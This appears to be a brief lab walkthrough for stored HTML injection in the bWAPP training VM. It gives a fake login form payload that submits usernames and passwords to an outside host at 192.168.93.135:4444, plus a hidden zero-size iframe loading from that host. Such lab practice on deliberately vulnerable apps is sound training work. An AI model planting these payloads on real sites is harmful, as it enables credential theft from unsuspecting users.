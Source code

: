 # Stored HTML injection (Blog)

1. Launch Bee Box VM

2. Go to the bwapp server under HTML Injection Stored (Blog)

3. Insert Payload


## Forms Payload

<form name="login" action="http://192.168.93.135:4444/test.html">
<table>
<tr><td>Username:</td><td><input type="text" name="username"/><td></tr>
<tr><td>Password:</td><td><input type="password" name="password"/><td></tr>
</table>
<input type="submit" value="login"/>
</form>

## iframe

<iframe src="http://192.168.93.135:4444/test.html" height="0" width="0"></iframe>